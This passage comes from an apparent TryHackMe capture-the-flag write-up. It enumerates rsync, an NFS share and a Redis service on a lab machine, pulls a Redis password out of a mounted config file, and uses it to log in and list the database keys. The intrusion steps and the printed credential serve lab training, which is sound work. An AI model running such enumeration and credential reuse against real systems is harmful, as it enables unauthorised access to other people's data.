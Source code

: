 Rsync is a fast incremental backup tool. Is transfers and syncs files accross different directories on the same machine, or another machine on the network. The good thing about rstnc is it only syncs and transfers files that are different, no duplicates. 

- list files ``rsync 10.10.114.111::``
- ``rsync -av --list-only rsync://10.10.114.111/files``
- we need authentication to login and once we have the auth we can access the files

##   port 2049 - nfs

- ``showmount -e 10.10.114.111``

```
Export list for 10.10.114.111:
/opt/conf *
```

- ``mkdir mount``
- ``sudo mount -t nfs 10.10.114.111: mount``

we can explore this share with ``tree``

- find the password within ``redis/redis.conf``

##   port 6379 - redis

Redis is an open source (BSD licensed), in-memory data structure store used as a database, cache, message broker, and streaming engine. [https://redis.io/docs/about/](https://redis.io/docs/about/)

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/VulnNet]
└─$ nc -vn 10.10.114.111 6379                        
(UNKNOWN) [10.10.114.111] 6379 (redis) open
info
-NOAUTH Authentication required.
```

- We need authentication to access the database. We can use the requirepass that we found withing the .conf file "B65Hx562F@ggAZ@F"

- ``redis-cli -h 10.10.114.111``
- ``AUTH B65Hx562F@ggAZ@F``

We can try to dump the database. Inside Redis the databases are numbers startting from 0. We can find these in the ``# Keyspace`` 

```
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
10.10.114.111:6379> 
```

```
10.10.114.111:6379[1]> SELECT 0
OK
10.10.114.111:6379> KEYS *
1) "internal flag"
2) "int"
3) "marketlist"
4) "authlist"
5) "tmp"
```
